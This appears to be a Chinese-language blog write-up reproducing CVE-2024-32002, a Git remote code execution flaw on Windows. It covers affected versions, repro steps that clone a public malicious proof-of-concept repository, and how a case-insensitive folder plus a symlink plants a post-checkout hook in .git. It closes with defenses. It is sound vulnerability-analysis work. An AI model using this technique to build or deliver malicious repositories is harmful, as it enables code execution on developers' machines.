 ```yaml
---
layout: post
title:  "CVE-2024-32002"
date:   2024-07-23
categories: vul_repro
---
```


# Git 远程代码执行

# 漏洞环境

- windows10 系统
- Git-2.45.0 / 2.44.0 / 2.43.0-2.43.4 / 2.42.0-2.42.2 / 2.41.0 / 2.40.0-2.40.2 / <2.39.4
- git 开启符号链接支持

# 漏洞复现步骤

1、在Win10安装Git-2.39.1

2、配置好 SSH key 以后，打开 git 的符号链接支持`git config --global core.symlinks true `

3、克隆恶意仓库，仓库中命令会被执行`git clone --recursive git@github.com:amalmurali47/git_rce.git`

# 漏洞原理

## git clone 

​		首先，在我们每次运行命令 `git clone` 时，实际上会进行以下操作：

```
mkdir -p <path> && cd <path>    # 创建一个与仓库同名的文件夹并进入
git init					 	# 初始化当前的 git 仓库，包括 .git 目录以及所有子目录和文件
git remote add origin <远程仓库的url> 	# 将本地仓库链接到远程仓库
git fetch origin				# 下载对象引用
git checkout -b <branch> --track origin/<branch>	# 创建本地分支，并跟踪远程分支
```

## git submodule

​		`git submodule`用于在一个 Git 仓库中嵌入另一个 Git 仓库。子模块通常用于管理大型项目中的独立依赖项或组件，这些组件可以是独立开发的代码库。

​		要将一个外部仓库作为子仓库添加到现有的 Git 中，需要如下命令:

```
git submodule add <repository_url> <path>
<repository_url>: 外部仓库的路径，例子：https://github.com/example/repo.git
<path> ： 外部仓库存放在本仓库的目录名称
```

注意：当添加子模块后，该子模块的内容会被添加到本仓库中，`.git`虽然也会出现，但它是一个**符号链接，指向本仓库 `.git/modules/<path>`**

​		当我们克隆某个具有子仓库的仓库时，用 `git clone ` 不会自动获取子仓库的内容，要想同时克隆子仓库内容，需要运行 `git clone --recursive` 命令即加上 `--recursive` 参数

## git hooks

​		Git 的 hooks 功能，详情见*[ Git官方文档 ](https://git-scm.com/docs/githooks)*。`hooks`目录存在于 `.git` 目录下，里面存放了很多 shell 脚本，这些脚本会在git执行到某个阶段时被执行。Git 的 hooks 机制主要是针对顶层仓库的 `.git/hooks` 目录中的脚本。如果你有子模块（submodule），每个子模块也会有自己的 `.git` 目录，其中包含 `hooks` 目录。对于子模块中的 hook 脚本，Git会查找并运行每个子模块自身的脚本

​		举个例子，`hooks` 目录中有个脚本名字叫做 `commit-msg`，这个脚本在执行 `git commit -m xxx` 后，消息被提交前，会被执行。

​		根据 Git 官方文档提供的说明，`post-checkout` 在执行 `git-checkout` 或 `git-switch` 命令且工作树[^1]更新后会被执行。<font color="honydew">它也会在 `git clone` 之后运行，除非使用了 `--no-checkout(-n)` 选项。</font>

## `.git` 文件夹

​		`.git` 文件夹是 Git 版本控制系统在每个 Git 仓库中创建的一个隐藏文件夹，它包含了关于该仓库的所有版本控制信息。这个文件夹对于 Git 的正常运行至关重要，它存储了仓库元数据、对象数据库，管理分支和引用，支持钩子脚本以及存储索引信息。

​		在正常情况下，新建本地仓库并 `git init` 后，会自动创建一个 `.git` 文件夹。当上传仓库到托管平台时，不会将本地的 `.git` 文件夹一起上传，仓库会自动帮助创建 `.git` 文件夹其用户无法查看和修改。故 `.git` 文件夹中的钩子脚本只会存在本地，对本地仓库起到作用。

## 攻击原理

​		然后利用了windows文件系统大小写不区分的特点，在恶意仓库中有两个文件夹分别为`A`与`a`，且`a`文件夹为符号链接，链接到了 `.git`文件夹中，而`A`是一个子模块，在其中有一个`modules`文件夹，文件夹链接到另一个保存恶意脚本的仓库，该子仓库中含有恶意脚本`y/hooks/post-checkout`。

​		在执行命令 `git clone --recursive git@github.com:amalmurali47/git_rce.git ` 时，会向保存恶意脚本的子仓库发起 `clone` 请求，并将 `post-checkout` 恶意脚本保存到目录 `A/modules/x/y/hooks/` 下。而在大小写不敏感的操作系统上，会将其保存到目录 `a/modules/x/y/hooks/` 下，而 `a` 文件夹又链接到了 `.git` 文件夹。因此实际保存恶意脚本的目录是 `.git/modules/x/y/hooks/` 目录下。

​		实际上 Git 在进行对应操作时，会先判断是否有相应的钩子脚本存在，即 `git clone` 之前，先 `hook_exists(script_name)`，若有则 `find_hook(repo, script_name)` 找到脚本文件。

<font color="red">**注：**</font>这里还不清楚 Git 的寻找子模块的钩子脚本的逻辑是什么，但是通过该漏洞猜测，直接找了 `主仓库/.git/modules/*/hooks` 中的脚本，如果查找的是 `主仓库/.git/modules/*/.git/hooks` ，可以模拟主仓库，继续使用同名文件夹和符号链接的方法将钩子脚本放入子仓库的 `.git`文件夹中去

# 防御措施

1、升级 git 版本

2、禁用 git 的符号链接功能

3、不要克隆来路不明的恶意仓库

[^1]: Git 的工作树（Working Tree），也被称为工作目录（Working Directory），工作树是仓库中实际包含项目文件的目录，是你日常工作的地方，你可以在这个目录下创建、编辑、删除文件，就像在普通文件夹中操作一样。